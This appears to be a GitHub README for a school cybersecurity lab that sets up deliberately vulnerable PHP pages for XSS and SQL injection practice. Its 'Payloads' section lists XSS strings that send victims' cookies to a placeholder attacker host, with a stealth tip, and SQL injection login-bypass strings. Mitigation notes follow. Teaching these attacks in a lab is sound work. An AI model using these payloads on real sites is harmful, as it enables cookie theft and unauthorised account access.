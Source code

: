 # G. Galilei Internship Cyber security course
This repository collects tools and methodologies used during the system security internship with the students of the G. Galilei Institute.

## Students
1. Dario Collini
2. Andrea Di Caro

## Analyzed vulnerabilities
- XSS
  - Reflected
  - Stored
- SQL injection

## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:

  		docker compose up --build
		
### For XSS vulnerability
- Visit the vulnerable page at: http://localhost:9000/xss.php

### SQLi vulnerability
- Visit the vulnerable page at: http://localhost:9000/sqlI.php 

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
    
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>
    
### SqlI
To gain access to the first account saved in the database

    a' OR 1=1 --
To gain access to an account by knowing the username

    [username]' OR 1=1 --

		

## Vulnerabilities Scenario and actions
### Steps for Vulnerability Analysis

#### 1. Information Gathering:
- **Application Observation**: Analyze the web application to identify points where user input is used to create SQL queries. These may include login forms, search forms, or any other form that interacts with the database.
- **Identifying Vulnerable Parameters**: Identify which parameters (e.g., query string, form fields, cookies) could be vulnerable to SQLi.

#### 2. Injection Testing:
- **Manipulated Input**: Inject various test payloads, such as `<script>alert(0);</script>`. A vulnerable application will run the script and display the alert.
- Once testing confirms vulnerability, the attacker may proceed with one of the following attack types:

---

### SQL Injection

**SQL Injection** occurs when attackers exploit flaws in poorly written PHP code to inject malicious code into a web application, leading to the execution of arbitrary commands on the server.

---

### Cross-Site Scripting (XSS)

**Cross-Site Scripting (XSS)** occurs when the server or application does not properly sanitize user input, allowing attackers to inject malicious scripts into web pages that will be executed in the browsers of users visiting the page.

#### There are 2 types of Cross-Site Scripting (XSS):
1. **Stored XSS**  
   Stored XSS is a type of Cross-Site Scripting where the malicious script injected by the attacker is stored on the server (e.g., in a database, file, or log).

2. **Reflected XSS**  
   Reflected XSS is a type of Cross-Site Scripting where the malicious code is not stored on the server but is instead reflected immediately in the server's response.

---

### Key Difference in Cookie Theft Methods Between Stored and Reflected XSS:

- **Stored XSS**: In this case, the attacker can redirect the user’s cookie to their own web server, which is always listening. This allows the attacker to steal the cookie every time someone visits the page.
  
- **Reflected XSS**: Here, the attacker needs the user to open a malicious link that leads to a website with a command that allows the attacker to redirect the user’s cookie toward them. This can only be done with some prior social engineering research to trick the user into clicking the link.

---

### Mitigation:

Mitigation refers to the methods we can use to make our websites secure and protected against these types of attacks.

- **Input Sanitization**: Filter user input to remove any malicious HTML or JavaScript tags.
  
- **Output Escaping**: Escape user input before displaying it on the HTML page, meaning converting special characters into sequences that are not interpreted as code by the browser.

- **Setting a Content Security Policy (CSP)**: Use a CSP to limit executable resources in the browser (such as scripts and styles) and prevent the execution of unauthorized scripts.


